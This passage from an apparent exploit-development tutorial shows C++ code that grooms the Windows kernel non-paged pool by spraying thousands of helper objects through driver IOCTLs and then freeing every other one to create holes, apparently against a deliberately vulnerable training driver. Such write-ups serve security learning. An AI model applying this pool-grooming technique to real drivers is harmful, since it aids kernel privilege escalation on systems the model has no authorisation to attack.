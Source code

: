 Then we proceed with object allocations in the pool to fill the gaps:
```cpp
...
	unsigned long long addr = 0xdeadbeefdeadbeef;

	for (unsigned int i = 0; i < 5000; i++) {

		ArwHelpObjIo.Name = &addr;

		DeviceIoControl(hFile, 0x222063, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		DeviceIoControl(hFile, 0x222067, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);
	}
...
```
This will allow us to do what we described earlier.

The following code does almost the same thing:
```cpp
...
	for (unsigned int i = 0; i < 5000; i++) {

		ArwHelpObjIo.Name = &addr;

		DeviceIoControl(hFile, 0x222063, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		DeviceIoControl(hFile, 0x222067, &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &ArwHelpObjIo, sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);

		HelperArray[i] = ArwHelpObjIo;
	}
...
```
But this time we register each struct in `HelperArray`, which now become useful objects.

In the next part of the code, we start creating the holes in the heap:
```cpp
...
	for (unsigned int i = 0; i < 5000; i++) {

		if (i % 2 == 0) {
			
			ArwHelpObjIo.Name = &addr;

			DeviceIoControl(hFile, 0x22206f, &HelperArray[i], sizeof(ARW_HELPER_OBJECT_IO), &HelperArray[i], sizeof(ARW_HELPER_OBJECT_IO), &bytes, nullptr);
		}
	}
...
```
To do this, we'll call **`DeleteArbitraryReadWriteHelperObjecNonPagedPoolNx`** to delete half of the objects (the even ones in the array in this case).
